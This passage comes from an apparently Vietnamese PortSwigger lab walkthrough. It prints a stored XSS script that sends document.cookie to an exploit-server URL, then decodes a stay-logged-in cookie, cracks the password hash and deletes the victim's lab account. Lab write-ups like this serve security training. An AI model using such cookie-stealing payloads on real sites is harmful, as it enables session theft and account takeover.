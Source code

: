 ![image](https://hackmd.io/_uploads/BkdmFrb5T.png)

payload để lấy cookie người dùng và gửi về server của chúng ta lắng nghe là

```javascript
<script>
  document.location='https://exploit-0a4700c603aa235b81255bc801e10070.exploit-server.net/exploit?c='+document.cookie
</script>
```

mình khai thác XSS tương tự với 1 bài post khác với payload trên

![image](https://hackmd.io/_uploads/HkUdFHZcp.png)

và sau đó vào phần access log để xem log của server và chúng ta thấy có 1 địa chỉ ip lạ xuất hiện trên server của chúng ta

![image](https://hackmd.io/_uploads/S1MWcSWcp.png)

ở phần stay-log-in có giá trị: ==Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz==  
![image](https://hackmd.io/_uploads/H1nG5BZ9T.png)

và mình đem decode base64 được giá trị
==carlos:26323c16d5f4dabff3bb136f2460a943==
đêm mật khẩu crack trên trang web crackstation

![image](https://hackmd.io/_uploads/SJ0DqBZq6.png)

và mình có tài khoản của người dùng là ==carlos:onceuponatime==

sau đó minhf đăng nhập vào tài khoản và xóa đi tài khoản này

![image](https://hackmd.io/_uploads/SynR9SZ5T.png)

![image](https://hackmd.io/_uploads/SyhJjBW96.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/rkUljS-5T.png)

## 11. Lab: Password reset poisoning via middleware

link: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware

### Đề bài

![image](https://hackmd.io/_uploads/Hy46RH-qT.png)

### Phân tích

- Chúng ta biết rằng người dùng carlos sẽ bất cẩn click vào link được gửi tới Email client của anh ấy. Để giải quyết bài này, chúng ta cần khai thác lỗ hổng trong tính năng đặt lại mật khẩu để lấy được token đặt lại mật khẩu của victim carlos. Hệ thống cung cấp một exploit server dùng để lấy các dữ liệu thông tin từ victim.
